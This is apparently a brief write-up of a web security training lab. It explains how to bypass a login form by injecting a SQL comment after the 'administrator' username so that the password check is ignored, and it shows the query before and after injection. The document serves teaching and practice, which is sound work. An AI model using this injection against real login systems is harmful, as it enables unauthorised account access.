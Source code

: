 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234012289-0cea6a94-5790-4f3a-8e22-eb934fa06434.png)

## Solution :

![image](https://user-images.githubusercontent.com/67383098/234013321-4d3a357e-978e-43b0-88e8-1dbbaa940645.png)



![image](https://user-images.githubusercontent.com/67383098/234013904-4e8a9a7e-ff82-42aa-854a-3a8714d7fc23.png)

Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
